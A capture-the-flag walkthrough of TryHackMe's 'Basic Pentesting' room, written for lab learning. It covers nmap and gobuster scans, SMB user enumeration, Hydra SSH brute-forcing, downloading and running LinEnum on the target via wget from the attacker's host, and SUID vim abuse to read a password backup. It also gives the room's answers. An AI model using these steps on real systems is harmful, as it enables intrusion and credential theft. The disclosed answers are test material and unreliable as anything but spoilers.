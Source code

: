 # CTF-TryHackMe-Basic_Pentesting

###  Find the services exposed by the machine

The first thing we are asked to do is find the services exposed by the machine. We can use nmap to find open ports and services.\
**nmap -A -T4 10.10.72.81 -oN nmap_initial**\
\
![nmap_Basic_pentesting 2022-01-21 110914](https://user-images.githubusercontent.com/86057471/150501345-127fda31-0ab3-48fa-be66-565319e415c7.png)\
\
We found six open ports and services on the machine.

### What is the name of the hidden directory on the web server(enter name without /)?

We can use a tool called gobuster to find all directories on the webserver we found open in the nmap scan.\
**gobuster dir -u 10.10.62.148 -w /usr/share/wordlists/dirb/common.txt  -oN gobuster**\
\
![gobuster_basicpentesting2022-01-21 111052](https://user-images.githubusercontent.com/86057471/150502129-8a4ce260-1524-4945-b04e-cdd560b13941.png)\
\
We find the hidden directory we were looking for: **devolopment**

### Use brute-forcing to find the username & password

In our nmap scan we found smb open. We can use a tool called enum4linux to bruteforce.\
**enum4linux -a 10.10.62.148**

### What is the username?

Running enum4linux we find two username.
**jan, kay**\
\
![enum4linux_basicpentesting2022-01-21 114847](https://user-images.githubusercontent.com/86057471/150505475-e1ca8ad6-7346-4469-b5d6-194a80a46457.png)

The username the question wanted is **jan**.

### What is the password?

If we go to the devolopment directory we found using gobuster. We find two files, dev.txt and j.txt.\
\
![development_basicpentesting2022-01-22 191336](https://user-images.githubusercontent.com/86057471/150648776-5056a752-5aff-4fef-a06c-b83f8a7c00ea.png)
\
If we open j.txt we get this message:

![jtxt2022-01-22 191413](https://user-images.githubusercontent.com/86057471/150648818-ff3115e0-634b-402c-b32f-a73ee05ae72e.png)\
\
There is a message from K to J, which we can assume is Kay and Jan. Kay is telling Jan that the password Jan is using is very weak.\
When we ran our nmap scan we found port 22 open running **ssh**(What service do you use to access the server). Knowing that Jan is using a weak password we can use a tool called Hydra that can try and brute force the password.

![hydraline_basicpentesting2022-01-22 192230](https://user-images.githubusercontent.com/86057471/150649003-1faeaad3-4d01-4127-976a-38cdebc0875d.png)

After running hydra we get:

![hydrassh_basicpentesting2022-01-22 193118](https://user-images.githubusercontent.com/86057471/150649238-09863ff3-2a20-4378-bb77-c625048e6b6b.png)

We found the password for jan: **armando**

### Enumerate the machine to find any vectors for privilege escalation

Let's start by logging into the machine with ssh using username jan and password armando.

![janshell_basicpentisiting2022-01-22 194312](https://user-images.githubusercontent.com/86057471/150649640-14c1ba6c-8764-4b97-a34c-ebba4960b6c0.png)

If we move into /home we find two directories, jan and kay. if we move into kay we find a pass.bak file but we don't have permission to cat it out.

![kaypass _basicpentsisng2022-01-22 195038](https://user-images.githubusercontent.com/86057471/150649853-9843e7c0-ac0b-4af5-a166-1d6356c9d481.png)


We can use a tool like LinEnum to try and find any vectors for privilege escalation.

Let's first open a new terminal and create a directory called LinEnum.\
In LinEnum we can git clone the repository from github.

![gitlinenum_asicpnetsting2022-01-22 200244](https://user-images.githubusercontent.com/86057471/150650261-5869ed40-02c1-4196-94b6-982e5e095939.png)\

Great, now we have downloaded LinEnum, but we still need to be able to use it in the machine.\
We can set up a http server and use wget to download it to the machine.\
In our terminal we will use python to start a SimpleHTTPServer.

![httpserver_basicpentesting2022-01-22 204346](https://user-images.githubusercontent.com/86057471/150651488-1327f009-c55a-41ab-9aee-ad7fdf871b59.png)

Then in the machine we will use wget to download LinEnum from out terminal: **wget 10.0.0.1:8000/LinEnum.sh**.
We will need to change the permissions before we are able to run it: **chmod +x LinEnum.sh**\
Then run it: **./LinEnum.sh**.\
After running it we can go throught the output.\
We found something interesting:

![suid_basicpentesting2022-01-22 205902](https://user-images.githubusercontent.com/86057471/150651874-82d4771b-9d38-442c-96fd-297376e40564.png)

Great! We can use vim.basic to see the contents of pass.bak:

![vimbasic_basicpentesting2022-01-22 210450](https://user-images.githubusercontent.com/86057471/150652029-f848f46b-f91c-4172-9c7b-73804a4068c3.png)

### What is the final password you obtain?

After running vim.basic we get the contents of pass.bak. The password is **heresareallystrongpasswordthatfollowsthepasswordpolicy$$**

![password_basicpentesting2022-01-22 210736](https://user-images.githubusercontent.com/86057471/150652110-7fca7bce-a9a1-4821-bf1c-3ec7e0dd5c2b.png)















